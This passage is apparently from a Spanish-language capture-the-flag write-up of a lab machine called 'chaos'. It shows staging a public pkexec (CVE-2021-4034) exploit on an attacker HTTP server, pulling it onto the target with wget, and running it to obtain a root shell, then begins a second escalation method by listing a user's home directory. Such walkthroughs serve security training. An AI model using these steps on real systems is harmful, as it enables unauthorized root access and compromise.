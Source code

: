 Cuando `pkexec` es `SUID`, puede ocurrir una vulnerabilidad que nos permite convertirnos en `usuario root`. Para explotarla, voy a usar este `exploit` [https://github.com/Almorabea/pkexec-exploit.git](https://github.com/Almorabea/pkexec-exploit.git). Lo primero que debemos hacer es descargarnos este `exploit` en nuestro equipo y montarnos un `servidor HTTP` con `Python` en su ubicación

```
# python -m http.server 80
```

Nos `descargamos` el `exploit`

```
ayush@chaos:/tmp$  wget http://10.10.16.28/CVE-2021-4034.py
--2024-10-13 09:06:27--  http://10.10.16.28/CVE-2021-4034.py
Connecting to 10.10.16.28:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3068 (3.0K) [text/x-python]
Saving to: ‘CVE-2021-4034.py’

CVE-2021-4034.py                                0%[                                                                                                 ]       0  --.-KB/s         CVE-2021-4034.py                              100%[================================================================================================>]   3.00K  --.-KB/s    in 0.03s   

2024-10-13 09:06:27 (97.3 KB/s) - ‘CVE-2021-4034.py’ saved [3068/3068]
```

`Ejecutamos` el `exploit`

```
ayush@chaos:/tmp$ python3 CVE-2021-4034.py 
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f91c23a8000 at 0x7f91c19555c0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
root
```
## Privilege Escalation (Second Method)

Listamos los `directorios ocultos` de `/home/ayush`

```
ayush@chaos:~$ ls -la
total 40
drwx------ 6 ayush ayush 4096 Oct 13 06:27 .
drwxr-xr-x 4 root  root  4096 Jun 30  2022 ..
drwxr-xr-x 2 root  root  4096 Jun 30  2022 .app
lrwxrwxrwx 1 root  root     9 Jul 12  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 Oct 13 06:27 .gnupg
drwx------ 3 ayush ayush 4096 Oct 13 07:19 mail
drwx------ 4 ayush ayush 4096 Jun 30  2022 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Oct 13 05:58 user.txt
```
